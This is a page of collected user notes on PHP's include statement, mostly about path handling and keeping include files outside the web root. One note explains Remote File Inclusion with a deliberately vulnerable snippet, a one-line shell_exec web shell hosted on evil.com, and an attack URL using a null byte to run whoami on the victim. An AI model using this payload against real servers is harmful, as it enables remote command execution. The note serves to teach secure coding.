 # Security warning



This might be useful:<br>

```
<?php
include $_SERVER['DOCUMENT_ROOT']."/lib/sample.lib.php";
?>
```
<br>So you can move script anywhere in web-project tree without changes.  

---

If you want to have include files, but do not want them to be accessible directly from the client side, please, please, for the love of keyboard, do not do this:<br><br>

```
<?php

# index.php
define('what', 'ever');
include 'includeFile.php';

# includeFile.php

// check if what is defined and die if not

?>
```


The reason you should not do this is because there is a better option available. Move the includeFile(s) out of the document root of your project. So if the document root of your project is at "/usr/share/nginx/html", keep the include files in "/usr/share/nginx/src".



```
<?php

# index.php (in document root (/usr/share/nginx/html))

include __DIR__ . '/../src/includeFile.php';

?>
```
<br><br>Since user can&apos;t type &apos;your.site/../src/includeFile.php&apos;, your includeFile(s) would not be accessible to the user directly.  

---

Before using php&apos;s include, require, include_once or require_once statements, you should learn more about Local File Inclusion (also known as LFI) and Remote File Inclusion (also known as RFI).<br><br>As example #3 points out, it is possible to include a php file from a remote server.<br><br>The LFI and RFI vulnerabilities occur when you use an input variable in the include statement without proper input validation.  Suppose you have an example.php with code:<br><br>

```
<?php
// Bad Code
$path = $_GET['path'];
include $path . 'example-config-file.php';
?>
```


As a programmer, you might expect the user to browse to the path that you specify.

However, it opens up an RFI vulnerability.  To exploit it as an attacker, I would first setup an evil text file with php code on my evil.com domain.

evil.txt


```
<?php echo shell_exec($_GET['command']);?>
```
<br><br>It is a text file so it would not be processed on my server but on the target/victim server.  I would browse to:<br>h t t p : / / w w w .example.com/example.php?command=whoami&amp; path= h t t p : / / w w w .evil.com/evil.txt%00<br><br>The example.php would download my evil.txt and process the operating system command that I passed in as the command variable.  In this case, it is whoami.  I ended the path variable with a %00, which is the null character.  The original include statement in the example.php would ignore the rest of the line.  It should tell me who the web server is running as.<br><br>Please use proper input validation if you use variables in an include statement.  

---

I cannot emphasize enough knowing the active working directory. Find it by: echo getcwd();<br>Remember that if file A includes file B, and B includes file C; the include path in B should take into account that A, not B, is the active working directory.  

---

As a rule of thumb, never include files using relative paths. To do this efficiently, you can define constants as follows:<br><br>----<br>

```
<?php // prepend.php - autoprepended at the top of your tree
define('MAINDIR',dirname(__FILE__) . '/');
define('DL_DIR',MAINDIR . 'downloads/');
define('LIB_DIR',MAINDIR . 'lib/');
?>
```

----

and so on. This way, the files in your framework will only have to issue statements such as this:



```
<?php
require_once(LIB_DIR . 'excel_functions.php');
?>
```


This also frees you from having to check the include path each time you do an include.

If you're running scripts from below your main web directory, put a prepend.php file in each subdirectory:

--


```
<?php
include(dirname(dirname(__FILE__)) . '/prepend.php');
?>
```
<br>--<br><br>This way, the prepend.php at the top always gets executed and you&apos;ll have no path handling headaches. Just remember to set the auto_prepend_file directive on your .htaccess files for each subdirectory where you have web-accessible scripts.  

---

[Official documentation page](https://www.php.net/manual/en/function.include.php)

**[To root](/README.md)**